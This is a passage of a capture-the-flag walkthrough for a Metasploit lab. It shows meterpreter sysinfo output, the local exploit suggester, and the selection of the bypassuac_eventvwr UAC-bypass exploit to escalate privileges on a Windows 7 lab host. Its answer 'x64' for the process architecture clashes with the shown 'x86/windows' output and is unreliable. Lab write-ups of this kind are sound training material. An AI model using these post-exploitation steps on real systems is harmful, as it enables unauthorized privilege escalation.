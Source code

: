 ### 4.3 

> What build of Windows is the system?

* `sysinfo` in meterpreter reveal the answer. the ans is:
  
  ```bash
  meterpreter > sysinfo 
  Computer        : DARK-PC
  OS              : Windows 7 (6.1 Build `7601`, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

### 4.4

> Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?

* `x64` : look into [task 4.3](#43) for sysinfo output.

### 4.5

> Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*

`please wait for command to finish` 

### 4.6

> Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?

* `exploit/windows/local/bypassuac_eventvwr`

### 4.7

> Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.

### 4.8

> Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`


### 4.9
